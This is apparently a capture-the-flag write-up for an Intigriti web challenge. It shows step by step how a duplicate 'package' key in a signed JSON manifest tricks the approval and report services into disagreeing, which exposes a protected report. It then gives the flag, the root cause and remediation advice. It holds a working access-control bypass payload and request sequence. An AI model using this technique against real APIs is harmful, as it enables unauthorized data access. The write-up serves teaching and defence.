



Challenge information
| Challenge | Canonically Yours |
|---|---|
| Platform | Intigriti |
| Category | Web / API security |
| Vulnerability | Duplicate JSON-key parser differential |
| Impact | Broken access control and protected-report disclosure |
Registry Observatory generates signed compatibility reports for software packages. The objective was to retrieve a protected report without modifying registry data or attacking the underlying infrastructure.
Step 1 — Create an account
I created a normal account on the challenge website. The application assigned a unique private namespace to the account.

Step 2 — Obtain the namespace and CSRF token
After logging in, I inspected the authenticated request below.
GET /api/me HTTP/2
Host: challenge-0726.intigriti.ioThe response contains the assigned private namespace and a CSRF token required for protected POST requests.
{
"user": {
"username": "REDACTED",
"namespace": "YOUR_NAMESPACE"
},
"csrf_token": "REDACTED"
}
Step 3 — Identify the protected package
The Observatory Archive contains package transfer records, component details, and version references. The records identify the protected target:
Namespace: core
Package: security-notes
Version: 1.0.0Therefore, the protected report belongs to @core/security-notes@1.0.0.

Step 4 — Understand the normal manifest workflow
The Manifest Studio lets a user create a manifest, request a time-limited approval, and run a read-only preflight report. A normal report for the owned legacy-adapter package revealed the following hint:
Historical ingestion retains the initial package declaration;
report rendering uses reconstructed manifest data.This indicated that different components might interpret the manifest differently.

Step 5 — Create a duplicate-key manifest
I intercepted the /api/manifests/sign request in Burp Suite and created a raw JSON manifest with two top-level properties named package. Replace YOUR_NAMESPACE with the namespace returned by /api/me.
{
"package": {
"scope": "YOUR_NAMESPACE",
"name": "legacy-adapter",
"version": "0.9.0"
},
"package": {
"scope": "core",
"name": "security-notes",
"version": "1.0.0"
},
"metadata": {
"description": "Compatibility check",
"visibility": "private"
},
"operation": "preflight"
}The first package belongs to the current account, @YOUR_NAMESPACE/legacy-adapter. The later declaration references @core/security-notes.

package keys
Step 6 — Request manifest approval
I sent the Base64-encoded manifest to the signing endpoint:
POST /api/manifests/sign HTTP/2
Host: challenge-0726.intigriti.io
Content-Type: application/json
X-Csrf-Token: REDACTED
Cookie: REDACTED
{
"manifest_b64": "BASE64_ENCODED_DUPLICATE_KEY_MANIFEST"
}The application accepted the manifest and returned a valid approval.

Step 7 — Publish the exact same signed manifest
I submitted the same Base64 manifest and approval fields to /api/publications. The request must include the CSRF token and Content-Type: application/json.
POST /api/publications HTTP/2
Host: challenge-0726.intigriti.io
Content-Type: application/json
X-Csrf-Token: REDACTED
Cookie: REDACTED
{
"manifest_b64": "THE_EXACT_SAME_BASE64_VALUE",
"approval_id": "REDACTED",
"manifest_sha256": "REDACTED",
"nonce": "REDACTED",
"expires_at": 0,
"signature": "REDACTED"
}The server created a ready publication and returned a publication ID.

Step 8 — Retrieve the protected report
I requested the generated report:
GET /api/publications/PUBLICATION_ID HTTP/2
Host: challenge-0726.intigriti.io
Cookie: REDACTEDThe report was generated for the protected package @core/security-notes@1.0.0.

INTIGRITI{019f8700-4613-74fb-923e-781903e4bee9}Root cause and impact
The approval service and report-generation service interpret duplicate JSON keys differently. The raw manifest bytes never change, so its SHA-256 digest and signature remain valid, but the authorization decision and report target refer to different package declarations.
| Component | Package interpreted |
|---|---|
| Manifest approval service | First package object: owned legacy-adapter package |
| Report generation service | Later package object: protected core/security-notes package |
As a result, any authenticated user could bypass the namespace authorization boundary and read a protected report for a platform-maintained package.
Remediation
- Reject JSON documents containing duplicate member names at the API boundary.
- Parse the manifest once and use the same canonical object for authorization, signing, and rendering.
- Sign a canonical serialization of the validated manifest, not opaque bytes that downstream components reparse.
- Add tests that verify every consumer agrees on security-relevant fields.